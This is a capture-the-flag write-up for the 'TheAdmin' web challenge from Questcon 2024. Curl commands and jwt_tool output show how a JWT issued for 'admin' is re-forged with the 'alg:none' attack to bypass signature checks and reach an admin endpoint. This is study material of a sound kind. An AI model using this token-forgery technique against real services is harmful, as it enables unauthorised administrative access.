 ## TheAdmin Questcon 2024 [100pt]

**Category:** Web
**Solves:** 120

## Description
The Professor has left a vulnerable authentication system. Can you exploit it and gain admin not just using admin? Sometimes the simplest loopholes can lead to the biggest breakthroughs. Its simple but none of you could figure out. Author: TheProfessor https://questcon-theadmin.chals.io

## Solution
We are provided with a API Documentation like this:

```

API Documentation

Welcome to the Challenge API documentation. Below are the details of the endpoints and how to use them.
Endpoints
1. Authenticate - POST /auth

Use this endpoint to authenticate with the username provided in the request body.
Request

POST /auth
Content-Type: application/json

{
  "username": "your_username"
}

Response

{
  "token": "your_token"
}

2. Access User Page - GET /access

Use this endpoint to access a user-authenticated page. You must provide a valid token in the Authorization header.
Request

GET /access
Authorization: Bearer your_token

Response

  Hello, {your special username}

```

Let's get a token for admin:
```bash
$ curl -X POST "https://questcon-theadmin.chals.io/auth" --data '{"username": "admin"}' -H "Content-Type: application/json"
{'token': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5NTk4MTczfQ.jyefZoIr3DCOeNaDynIKst8_7mdakp_KWXGJfd0-104'}
```

After fuzzing a little bit, tried none alg attack on jwt and seem to be working:
```bash
$ python ../../../../Tools/jwt_tool/jwt_tool.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5NTk4MTczfQ.jyefZoIr3DCOeNaDynIKst8_7mdakp_KWXGJfd0-104" -X a

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 

jwttool_aebd6337718e3ec753036a734bc94865 - EXPLOIT: "alg":"none" - this is an exploit targeting the debug feature ......(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJuT25FIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5NTk4MTczfQ.
```

And send to get the flag:
```bash
$ curl "https://questcon-theadmin.chals.io/access" -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5NTk4MTczfQ." -v
```